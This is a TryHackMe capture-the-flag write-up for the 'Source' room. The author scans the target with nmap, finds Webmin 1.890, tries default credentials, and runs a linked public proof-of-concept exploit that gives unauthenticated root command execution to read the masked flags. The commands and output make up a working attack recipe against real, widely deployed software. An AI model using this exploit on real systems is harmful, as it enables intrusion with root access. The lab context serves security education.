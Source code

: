 ```yaml
---
title: "TryHackMe: Source"
author: cilgin
date: 2025-06-21 19:48:40 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: true
math: false
mermaid: false
image:
  path: /assets/img/2025-06-18-TryHackMe-Ninja_Skills/Source.png
---
```


# Enumeration

## Nmap Scan

I start with exporting the target machine IP adress as a enviroment variable:

```bash
export IP=10.10.178.7
```

And running `nmap` scan on the target:

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-21 19:50 +0300
Nmap scan report for 10.10.178.7
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.66 seconds
```

There is a open port `10000` for http running Webmin. So I `curl` the page first.

```bash
❯ curl http://$IP:10000
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-178-7.eu-west-1.compute.internal:10000/'>https://ip-10-10-178-7.eu-west-1.compute.internal:10000/</a> instead.<br></p>
```

But site is not working on http so I try http.

```bash
❯ curl https://$IP:10000
curl: (60) SSL certificate problem: self-signed certificate
More details here: https://curl.se/docs/sslcerts.html

curl failed to verify the legitimacy of the server and therefore could not
establish a secure connection to it. To learn more about this situation and
how to fix it, please visit the webpage mentioned above.
```

And It's using self-signed certificates. I guess using browser is better from there.
So I hop into my browser and go the path with https.
(photo1)

## Trying to log in as a admin

Like everyone I tried:

- admin:admin
- admin:password

But these didn't worked out. So I googled the default password for `webmin`.

Someone on the forums said this:

```text
The default user name and password is that of your root user.
```

After that I checked webmin version the server was runnning:

```text
|_http-server-header: MiniServ/1.890
```

And googled the version for any CVE's. And I found one, also found a script that exploits that security vulnerability. Here's the github repo for the script: <https://github.com/n0obit4/Webmin_1.890-POC/blob/master/Webmin_exploit.py>

```bash
❯ python script.py -host $IP -port 10000 -cmd id

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
```

And we got access with root.

## Gaining Flags

For user:

```bash
❯ python fuck.py -host $IP -port 10000 -cmd "ls /home"          

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root
    
			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
dark


~/dev/Python via  v3.13.3 (myenv) 
❯ python fuck.py -host $IP -port 10000 -cmd "ls /home/dark"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root
    
			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
user.txt
webmin_1.890_all.deb


~/dev/Python via  v3.13.3 (myenv) 
❯ python fuck.py -host $IP -port 10000 -cmd "cat /home/dark/user.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root
    
			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

For root:

```bash
❯ python fuck.py -host $IP -port 10000 -cmd "cat /root/root.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

Easy as that. Thanks you for reading my solution.
